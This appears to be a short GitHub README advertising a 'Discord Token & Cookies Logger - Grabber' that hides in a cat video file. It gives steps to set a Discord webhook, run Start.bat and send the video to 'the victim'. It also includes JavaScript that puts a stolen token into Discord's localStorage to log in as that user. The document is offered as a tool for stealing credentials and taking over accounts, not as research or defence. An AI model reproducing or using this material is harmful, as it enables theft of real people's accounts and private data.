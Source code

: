 **Image Tool By OK.@**


- edit file Inje.js
- enter your discord webhook 
- open Start.bat
- send Video Cat.webm for the victim


Discord Token & Cookies Logger - Grabber 
with a video # 6 sec ~ 
By OK. https://discord.gg/vfJknm825G




- login code
```let token = "";

function login(token) {
    setInterval(() => {
      document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }

login(token);
```
